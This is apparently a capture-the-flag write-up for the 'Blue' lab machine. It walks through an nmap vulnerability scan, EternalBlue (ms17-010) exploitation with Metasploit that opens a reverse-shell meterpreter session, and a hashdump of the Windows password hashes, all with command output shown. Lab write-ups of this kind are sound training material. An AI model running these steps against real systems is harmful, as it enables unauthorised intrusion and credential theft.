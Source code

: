 [![Needed-nmap](https://img.shields.io/badge/Needed-nmap-blue)](https://nmap.org/)
[![Needed-Metasploit](https://img.shields.io/badge/Needed-Metasploit-orange)](https://www.metasploit.com/)

# Blue

## Reconnaissance
At a first scan with `nmap -sV $TARGET_IP` we notice that the target machine has no open ports, but that's only because it doesn't respond to ICMP packets. From this we can guess we are dealing with a Windows target.<br>
To get a scan despite this, we can add to the command the option `-Pn`:
```
┌──(kali㉿kali)-[~]
└─$ nmap -sV --script vuln 10.10.93.60 
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-26 07:35 EST
Nmap scan report for 10.10.93.60
Host is up (0.051s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_      http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown: 
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

As we can see there are several vulnerabilities, but the intended solution seems to be the exploitation of `ms17-010`, so we'll move in this direction.

## Gaining access
Since the vulnerability is a known CVE we'll use Metasploit to exploit it.<br>
After msfconsole has started we have to select the exploit with the command `use`, but we don't know WHAT to use... We need to search the vulnerability with the following command:
```
msf6 > search ms17

Matching Modules
================

   #   Name                                                   Disclosure Date  Rank     Check  Description
   -   ----                                                   ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue               2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1   exploit/windows/smb/ms17_010_eternalblue_win8          2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2   exploit/windows/smb/ms17_010_psexec                    2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3   auxiliary/admin/smb/ms17_010_command                   2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   ...
   ...
```

We will use the first one.<br>
For the exploit to function we need absolutely to set RHOSTS (target machine's IP) and check that LHOST is set to our **tun0** IP. Then we can execute the command `run` or `exploit`:
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.18.20.168:4444 
[...]
[+] 10.10.76.42:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.76.42:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.76.42:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter >
```

We'll get a `NT AUTHORITY\SYSTEM` meterpreter shell. We can now dump all passwords with the command `hashdump`:
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```